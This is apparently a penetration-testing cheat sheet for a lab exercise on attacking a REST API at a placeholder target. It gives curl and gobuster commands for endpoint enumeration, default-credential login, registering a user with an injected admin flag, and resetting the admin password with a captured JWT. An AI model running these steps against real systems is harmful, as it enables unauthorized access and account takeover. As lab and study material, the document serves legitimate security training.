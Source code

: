 --------------------------------------------------------------------------
## APIs

- ### Enumerate
  1. Examine url with curl

          curl -i http://$TARGET_IP/users/v1

  2. Expand inpsection by inserting found properties like usernames into the path and running additional scans:

          gobuster dir -u http://$TARGET_IP/users/v1/admin -w $DIRECTORY_LIST

  3. Probe additional findings with curl

          curl -i http://$TARGET_IP/users/v1/admin/password

        A 405 response indicates the URL is valid but requires a different HTTP request type (POST, PUT) (Default is GET)

- ### Check for login
  1. If access to user credentials as above then check for login function

          curl -i http://$TARGET_IP/users/v1/login

  2. Look for a status message in the response that indicates the function is active.
  3. Craft a request with valid user to further test login.

          curl -d '{"password":"admin","username":"admin"}' -H 'Content-Type: application/json'  http://TARGET_IP/users/v1/login

  4. Look for status message in response indicating further requirements.

- ### Check for user registration
  1. Check for register function.

          curl -d '{"password":"password","username":"test123"}' -H 'Content-Type: application/json'  http://$TARGET_IP/users/v1/register

  2. Look for a status message in response that indicates the function is active/requires additional parameters.
  3. Craft a request with necessary parameters.

          curl -d '{"password":"password","username":"test123","email":"pwn@test.com"}' -H 'Content-Type: application/json' http://$TARGET_IP/users/v1/register


  5. If user successfully created check for abilty to use administrative key to enable admin permissions.

          curl -d '{"password":"","username":"offsec","admin":"True"}' -H 'Content-Type: application/json' http://$TARGET_IP/users/v1/register

- ### Change user pw

  - Using auth token recieved from curl login to craft a message to send to password function

        curl -X 'PUT' 'http://$TARGET_IP/users/v1/admin/password' -H 'Content-Type: application/json' -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' -d '{"password": "pwned"}'
	